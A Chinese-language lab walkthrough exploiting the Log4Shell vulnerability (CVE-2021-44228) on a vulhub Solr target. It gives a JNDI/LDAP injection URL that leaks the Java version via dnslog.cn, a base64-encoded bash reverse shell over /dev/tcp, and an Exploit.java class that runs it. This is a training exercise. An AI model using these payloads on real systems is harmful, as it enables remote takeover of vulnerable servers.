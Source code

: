 开启靶场

cd vulhub/log4j/2CVE-2021-44228

docker-compose up -d //开启靶场  
docker-compose ps //查看靶场端口

开放的端口：8983

访问：[http://192.168.59.135:8983](http://192.168.59.135:8983)

![image-20230728203215165](https://gitee.com/MrNingF/picgo/raw/master/images/image-20230728203215165.png)

测试有无注入点：

借助网络工具：[http://dnslog.cn/](http://dnslog.cn/)

注入点：/solr/admin/cores?有个参数可传

Get SubDomin：获取子域名

egcn05.dnslog //我的子域名

访问：

[http://192.168.59.135:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.egcn05.dnslog.cn](http://192.168.59.135:8983/solr/admin/cores?action=$%7Bjndi:ldap://$%7Bsys:java.version%7D.egcn05.dnslog.cn)}

[http://靶机IP](http://xn--IP-eo8d177o):靶机开放端口/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.子域名}

![image-20230728203934343](https://gitee.com/MrNingF/picgo/raw/master/images/image-20230728203934343.png)

看dnslog.cn，有返回Java版本，可注入（较慢，可刷新或等待）

![image-20230728203853593](https://gitee.com/MrNingF/picgo/raw/master/images/image-20230728203853593.png)

将下面这个代码进行base64编码：（去网上搜索，有很多都可以进行base64编码的网站）IP替换为靶机IP地址

bash -i >& /dev/tcp/192.168.59.135/7777 0>&1

编码后：

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU5LjEzMC83Nzc3IDA+JjEK}|{base64,-d}|{bash,-i}

老规矩，在Java文件夹里写一个Exploit.java,写入下面的代码：

    import java.lang.Runtime;
    import java.lang.Process;
    public class Exploit {
         public Exploit(){
                 try{
                     Runtime.getRuntime().exec("/bin/bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU5LjEzMC83Nzc3IDA+JjEK}|{base64,-d}|{bash,-i}");
                                    }catch(Exception e){
                                                e.printStackTrace();
                                                 }
                    }
             public static void main(String[] argv){
                             Exploit e = new Exploit();
                                }
    }
    